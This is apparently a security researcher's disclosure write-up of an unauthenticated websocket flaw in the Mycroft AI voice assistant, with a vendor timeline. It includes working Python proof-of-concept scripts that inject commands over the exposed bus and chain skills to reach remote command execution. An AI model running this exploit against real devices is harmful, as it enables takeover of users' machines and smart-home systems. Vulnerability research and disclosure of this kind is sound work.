 # "Hey Mycroft, we've got a Problem"

Getting "Zero Click" Remote Code Execution in Mycroft AI vocal assistant

![Mycroft AI](https://dmtyylqvwgyxw.cloudfront.net/instances/132/uploads/images/custom_image/image/466/normal_9b94a225-8605-4d78-82d2-4c59f6981c57.jpg)

## Introduction

During my journey contributing to open source I was working with my friend [Matteo De Carlo](https://github.com/portaloffreedom) on an [AUR Package](https://git.covolunablu.org/portaloffreedom/plasma-mycroft-PKGBUILD) of a really interesting project called [Mycroft AI](https://mycroft.ai). It's an AI-powered vocal assistant started with a [crowdfunding campaign](https://www.kickstarter.com/projects/aiforeveryone/mycroft-an-open-source-artificial-intelligence-for) in 2015 and a [more recent one](https://www.indiegogo.com/projects/mycroft-mark-ii-the-open-voice-assistant#/) that allowed Mycroft to produce their Mark-I and Mark-II devices. It's also running on Linux Desktop/Server, Raspberry PI and will be available soon™ on [Jaguar Type-F](https://www.youtube.com/watch?v=6GHmzbXp_jY) and [Land Rover](https://mycroft.ai/blog/mycroft-welcomes-jaguar-land-rover-new-investor/)

## Digging in the source code

While looking at the [source code](https://github.com/MycroftAI/mycroft-core) I found an interesting point: [here](https://github.com/MycroftAI/mycroft-core/blob/1f4c98f29ceb6a7981474f1620441e43aa364d00/mycroft/messagebus/service/main.py#L28-L57)

```python
...
host = config.get("host")
port = config.get("port")
route = config.get("route")
validate_param(host, "websocket.host")
validate_param(port, "websocket.port")
validate_param(route, "websocket.route")

routes = [
        (route, WebsocketEventHandler)
]
application = web.Application(routes, **settings)
application.listen(port, host)
ioloop.IOLoop.instance().start()
...
```

it defines a websocket server that uses to get instructions from the remote clients (like the [Android one](https://github.com/MycroftAI/Mycroft-Android)). The settings for the websocket server are defined in [mycroft.conf](https://github.com/MycroftAI/mycroft-core/blob/aa594aebea99eebd0109ad013b71a2210f2b72f4/mycroft/configuration/mycroft.conf#L111-L117)

```json
// The mycroft-core messagebus' websocket
  "websocket": {
    "host": "0.0.0.0",
    "port": 8181,
    "route": "/core",
    "ssl": false
},
```

So there is a websocket server that doesn't require authentication that by default is exposed on `0.0.0.0:8181/core`. Let's test it 😉

```python
#!/usr/bin/env python

import asyncio
import websockets

uri = "ws://myserver:8181/core"
command = "say pwned"

async def sendPayload():
    async with websockets.connect(uri) as websocket:
        await websocket.send("{\"data\": {\"utterances\": [\""+command+"\"]}, \"type\": \"recognizer_loop:utterance\", \"context\": null}")

asyncio.get_event_loop().run_until_complete(sendPayload())
```

And magically we have an answer from the vocal assistant saying `pwned`!

Well, now we can have Mycroft pronounce stuff remotely, but this is not a really big finding unless you want to scare your friends, right?

![Trump WRONG](https://media1.tenor.com/images/8a4a99d3bd67ba8d9a025c36edf4a624/tenor.gif)

## The skills system

Digging deeper we can see that Mycroft has a skills system and a default skill that can install others skills (pretty neat, right?)

How is a skill composed? From what we can see from the documentation a default skill is composed by:

- `dialog/en-us/command.dialog` contains the vocal command that will trigger the skill
- `vocab/en-us/answer.voc` contains the answer that Mycroft will pronounce
- `requirements.txt` contains the requirements for the skill that will be installed with `pip`
- `__int__.py` contains the main function of the skill and will be loaded when the skill is triggered

## What can I do now?

I could create a malicious skill that when triggered runs arbitrary code on the remote machine, but unfortunately this is not possible via vocal command unless the URL of the skill is not whitelisted via the online website. So this is possible but will be a little tricky.

### So I'm done?

Not yet. I found out that I can trigger skills remotely and that is possible to execute commands on a remote machine convincing the user to install a malicious skill. I may have enough to submit a vulnerability report. But maybe I can do a bit better...

## Getting a remote shell using default skills

We know that Mycroft has some [default skills](https://github.com/MycroftAI/mycroft-skills) like `open` that will open an application and others that are whitelisted but not installed. Reading through to the list, I found a really interesting skill called `skill-autogui`, whose description says `Manipulate your mouse and keyboard with Mycroft`. **We got it!**

Let's try to combine everything we found so far into a PoC:

```python
#!/usr/bin/env python

import sys
import asyncio
import websockets
import time


cmds = ["mute audio"] + sys.argv[1:]
uri = "ws://myserver:8181/core"


async def sendPayload():
    for payload in cmds:
        async with websockets.connect(uri) as websocket:
            await websocket.send("{\"data\": {\"utterances\": [\""+payload+"\"]}, \"type\": \"recognizer_loop:utterance\", \"context\": null}")
            time.sleep(1)

asyncio.get_event_loop().run_until_complete(sendPayload())
```

Running the exploit with `python pwn.py "install autogui" "open xterm" "type echo pwned" "press enter"`  allowed me to finally get a command execution on a Linux machine.

![PoC](PoC.gif)

![WASSUUUUUUUUUUUUUUUUUUUUUUUUP](https://thumbs.gfycat.com/PleasedEducatedGalah-size_restricted.gif)

## _Notes_

- `open xterm` was needed because my test Linux environment had a DE installed, on a remote server the commands will be executed directly on TTY so this step is not nesessary.
- The skill branching had a [big change](https://mycroft.ai/blog/skill-branching-18-02/) and now some skills are not (yet) available (autogui is one of them) but this is not the real point. Mycroft has skills to interact with domotic houses and other services that can still be manipulated (the lack of imagination is the limit here). The vulnerability rediseds in the lack of authentication for the ws.

## Affected devices

All the devices running Mycroft <= ? with the websocket server exposed

## Interested in my work?

Follow me on:

- Twitter: `@0x7a657461`
- Linkedin: [https://linkedin.com/u/0xzeta](https://linkedin.com/u/0xzeta)
- GitHub: [https://github.com/Nhoya](https://github.com/Nhoya)

## Timeline

- 08/03/2018 Vulnerability found
- 09/03/2018 Vulnerability reported
- 13/03/2018 The CTO answered that they are aware of this problem and are currently working on a patch
- 06/06/2018 The CTO said that they have no problem with the realease of the vulnerability and will add a warning to remember the user to use a firewall `¯\_(ツ)_/¯`
- 09/06/2018 Public disclosure
